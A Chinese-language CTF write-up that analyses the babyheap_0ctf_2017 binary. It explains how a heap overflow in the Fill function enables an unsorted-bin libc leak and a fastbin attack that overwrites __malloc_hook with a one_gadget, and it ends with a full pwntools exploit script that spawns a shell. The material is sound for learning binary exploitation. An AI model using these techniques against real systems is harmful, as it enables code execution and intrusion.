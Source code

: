 # babyheap_0ctf_2017

## 程序静态分析

程序流程很简单，基本如下图所示：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-06_20-03-33.png)

进一步，对一些特点做具体分析

### Allocate

首先需要，注意的是`Allocate`函数，

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-06_20-28-04.png)

> 在该函数中，主要是要注意 程序构建的 管理堆栈的结构体；其次每次分配时，都会从`index 0`开始遍历堆块的`in_use`位，来判断该程序是否被使用过。

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-06_20-36-32.png)

在该函数中，程序构建了这样一个结构体，若堆块已分配；**`in_use =1，size，ptr都会得到对应的数据填充`，在循环中，`index`就会被跳过**

### Fill函数

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-06_20-40-10.png)

`Fill`需要注意，我们在输入填充到`ptr`所指向的地址时，又再次输入了`size`；所以到目前有了两次的`size`输入,第一次，在我们分配堆块的时候，输入`size`来确定分配的堆块的大小，而此时，填充的内容大小`size`再次输入，且没有做大小和边界检查，所以我们可以根据此时的`size`填入任意长度的数据

### Free函数

Free函数 没有什么好说，主要是将堆块对应的结构体内容 置 0

### Dump

主要就是将数据打印



## 漏洞利用思路

### 主要关键点：

- 64位程序`fast_bin`存放的堆块大小区间为`0x10-0x70`算上头部即为`0x20-0x80`所以构建的分配堆块大小为`0x80`算上头部也就是`0x90`会进入`unsorted_bin`存储
- 在`unsorted_bin`中空闲堆块会构成一个`双向的链表`;所以当`unsorted_bin`中仅有一个空闲堆块时，该堆块的`fd`和`bk`指针都会指向同一个位置，极`bins`的`unsorted_bin`；而这个位置是确定的，即`main_arena+88`
- 当我们得到`main_arena+88`也就能得到`main_arena`地址；根据相对偏移，`__malloc_hook`地址位于`main_arena-0x10`的位置，如果得到了`__malloc_hook`那我们就能根据该相对偏移来泄露`libc`地址，得到我们想要的地址
- `__malloc_hook`的使用： 当程序调用`malloc`或则`calloc`时，程序就会调用`glibc`的`__malloc_hook`来提供服务；因此若我们将该函数替换为我们想要跳转的函数，即可实现我们的操作。
- `fast_bin`是一个单向链表，其空闲快的`fd`指针指向下一个空闲块
- `execv_addr`这一类系统函数，可以通过`one_gadget`对`libc`来获取相对偏移位置
- `malloc(size)`分配的是`size`的可读写空间，实际的堆块会大`0x10`会加上头部，即`chunk = size + 0x10`,同时，`malloc`的返回地址是一个指向其数据域的指针，不是指向头部的指针！！！

### 实现细节：

#### Libc的泄露

- 申请4个大小为`0x80`的堆块(算上头部也就是`0x90`的大小)，对于使用中的堆块，起作用的只有`size`位标明该堆块的大小，头部中的另一个`pre_size`无效，被上一个堆块复用，在图中标出；此外还需要注意位于`size`域中的`prev_inuse`用于记录前一个堆块是否分配。(`1`就是前一个堆块已分配,对应`0`就是尚未分配)
- 然后释放堆块二，此时对于堆管理器中仅有大小为`0x80`的堆块；利用**对堆块0进行内容越界写，将堆块1的`size`改为0x121 = 0x120+1**
- 然后分配`0x110`大小的堆块，此时`unsorted_bin`中满足大小的仅有堆块1(size = 120;头部大小为0x10，可用空间为0x110)；然后再`fill(1)`由于内存分配使用的是`calloc`，会将内存全部清零，因此块2的头部数据无效，需要进行填充对应的数据然后再`free(2)`
- 此时的块2被释放后进入`unsorted_bin`,其`fd`和`bk`指针指向同一个位置即`main_arena+88`
- 在这里需要说一下堆块3的作用，块3分配，并没有被使用，是为了防止块2被释放后和后面的空闲空间合并；从而无法利用；通过块3的分配保证了块2的紧邻位置无空闲块，无法进行空闲块合并

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-09_21-16-56.png)

<center >整个堆块的构成如上图所示，进一步利用可到的`libc`的泄露</center>

- 所以此时形成了有一个空闲块位于`unsorted_bin`，即块2，而对用程序来说块2的空间 也是块1的内容，所以块1 可以读取块2的内容，从而得到`fd`和`bk`的值，得到`main_arena+88`的地址，从而能够泄露得到libc

#### fast_bin 攻击

- 首先是`alloc(0x80)、alloc(0x60)、alloc(0x60)`得到6个分配的堆块，这里要说一下，首先分配`alloc(0x80)`是为了消耗掉堆块的分配**序号2**；同时消耗掉该堆块大小；如果没有这一步，直接`alloc(0x60)`会存在两个问题，根据程序的流程，**会对序号0开始到15依次验证是否分配，很明显序号2空闲，其序号会为2，容易混淆；其次此时有一个空闲的大小为0x80的堆块，堆块的分配使用首次使用算法，会对该堆块进行切割，也不符合我们的操作目的**
- `free(5)`;堆块5作为空闲堆块，其大小正好进行`fast_bin`序列，此时由于堆块5已被释放，处于空闲态，无法填充内容，所以我们利用堆块4，`fill(4)`来越界写，从对其进行填充，将其`fd`指针填充为一个特定的地址，题目中命名为`fake_small_bin_addr`
- 对于位于`fast_bin`列表的堆块来说，他们都是单链表链接，且为`LIFO`结构，`fd`指针指向下一个可分配的空闲堆块，`fd =fake_small_bin_addr`即理解为`fake_small_bin_addr`开始的位置是一个大小为`0x70`的堆块
- 这个`fake_small_bin_addr`即为`malloc_hook_addr - 0x23`，为什么是这个地址？
- 这是由于`malloc_hook_addr - 0x23`**+0x10**处的值正好是`0x7f`，能够作为一个堆块的`size`域进行解析；对应解析为一个堆块大小为`0x60`的size域；至于该数据的前八个字节，一般认为是`prev_size`的区域，没有作用所以可以直接忽略，这样就构成了一个堆块
- 对于`fast_bin`来说，为了被快速分配，该列表的空闲堆块不会进行合并，所以其`pre_inuse`位总是置1
- `alloc(0x60)、alloc(0x60)`,由于`fast_bin`是一个`LIFO`的结构，所以需要分配两次，先分配堆块5，其次是我们伪造的堆块，分配成为堆块6
- 然后`fill(6)`在内容其实偏移`0x13`的地址处即为`malloc_hook_addr`,将其填充为`execv_addr`

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-12-10_20-59-34.png)



此时分配任意大小的堆块，程序调用`malloc`函数，底层调用`malloc_hook_addr`,由于已被替换，会跳转`execv_addr`函数；整个流程就完了



## exp

```python
#coding:utf-8
from os import execve
from pwn import *
from LibcSearcher import *

context(os ="linux",arch= "amd64",log_level = "debug")

io = process("/home/always/PWN/babyheap_0ctf_2017")
#io = remote("node4.buuoj.cn",28805)
def alloc(size):
    io.sendlineafter("Command: ",'1')
    io.sendlineafter("Size: ",str(size))

def fill(index,content):
    io.sendlineafter("Command: ",'2')
    io.sendlineafter("Index: ",str(index))
    io.sendlineafter("Size: ",str(len(content)))
    io.sendlineafter("Content: ",content)

def free(index):
    io.sendlineafter("Command: ",'3')
    io.sendlineafter("Index: ",str(index))

def dump(index):
    io.sendlineafter("Command: ",'4')
    io.sendlineafter("Index: ",str(index))

alloc(0x80)#0
alloc(0x80)#1
alloc(0x80)#2
alloc(0x80)#3
#pause()

# ---------------- leak libc --------------------------------
free(1)
fill(0,b'a'*(0x80+8)+p64(0x120+1))
alloc(0x110) #1
fill(1,b'a'*(0x80+8)+p64(0x90+1))
free(2)

dump(1)
#---------------------- get libc base----------------------
io.recv(0x90+0xa)
main_arena_88_addr = u64(io.recv(0x8))
log.success("Main_arean_addr:===================>{}".format(hex(main_arena_88_addr)))
malloc_hook_addr = main_arena_88_addr - 88 -0x10
fake_small_bin_addr = malloc_hook_addr - 0x23
libc = ELF("/home/always/Libc/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")		#与下面的execve_offset相对应
#libc = ELF("/home/always/Libc/libc-2.23.so")
libc_base = malloc_hook_addr - libc.sym["__malloc_hook"]
log.success("libc_base_addr :======================>{}".format(hex(libc_base)))
execve_offset = 0x4527a    #通过one_gadget 获得，每个libc都不一样
execve_addr = libc_base + execve_offset
log.success("execve_addr: =============================>{}".format(hex(execve_addr)))
#---------------- get libc base end -------------------------------

#------------------- fast bin attack ----------------------------------------
alloc(0x80) #2
alloc(0x60) #4
alloc(0x60) #5
free(5)
fill(4,b"a"*(0x60 +8) + p64(0x70 + 1)+p64(fake_small_bin_addr))
#pause()
alloc(0x60) #5
alloc(0x60) #6
fill(6,b"a"*0x13 + p64(execve_addr))
#pause()
alloc(0x1)

io.interactive()


```

